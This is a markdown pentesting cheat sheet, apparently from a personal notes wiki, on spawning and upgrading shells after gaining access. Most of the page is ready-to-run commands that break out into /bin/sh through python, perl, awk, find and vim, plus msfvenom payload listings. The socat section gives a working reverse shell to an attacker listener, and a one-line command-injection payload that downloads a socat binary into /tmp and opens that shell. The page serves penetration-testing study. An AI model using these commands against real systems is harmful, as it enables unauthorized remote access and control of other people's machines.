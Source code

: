```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```

# Spawn a shell

??? abstract "All about shells"
    | **Shell Type**                       | **Description**                                                                                                                                                                                                                                   |
    | ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                    |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                     |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).
    - 


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| [Reverse shell](reverse-shells.md) |  Initiates a connection back to a "listener" on our attack box. | 
| [Bind shells](bind-shells.md) | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| [Web shells](web-shells.md) | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### bash

```bash
# Upgrade shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### python

```bash
 # using python for a pseudo terminal
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c "import pty;pty.spawn('/bin/bash')"
```

### ssh

```bash
/bin/sh -i
```


### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### ruby

```bash
ruby:  exec "/bin/sh";
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty size
stty rows <num> columns <cols>

# In one line:
reset; export SHELL=bash; export TERM=xterm-256color; stty rows <num> columns <cols>

```

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



### awk

```bash
awk 'BEGIN {system("/bin/sh")}'
```


### find 

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.

find . -exec /bin/sh \; -quit
# This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
```


### VIM

```bash
vim -c ':!/bin/sh'
```

**VIM escape**:

```shell-session
vim
:set shell=/bin/sh
:shell
```